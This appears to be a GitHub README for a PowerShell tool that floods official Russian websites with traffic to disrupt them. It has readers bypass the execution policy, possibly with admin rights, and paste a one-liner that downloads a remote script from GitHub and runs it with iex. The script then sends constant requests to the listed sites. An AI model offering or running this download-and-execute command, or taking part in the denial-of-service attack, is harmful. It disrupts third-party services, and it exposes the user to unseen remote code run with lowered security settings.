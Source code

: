 # What is this

The following script is flooding official Russian web sites with Internet traffic and causes disruption. 

## How to Run (Windows 7+ only)
1. Open 'Windows PowerShell'. You may need to open it in admin/privilidedg mode
1. Copy and Paste the following script in the Powershell Window and Press Enter
```ps
Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/givethemhell/shutthemdown/main/script.ps1'))
```

The script will create separate jobs that will constantly send requests to the listed web sites in the script. The script works as long as the PowerShell Window is open. If you want to stop the script, close the PowerShell window.

Thank you!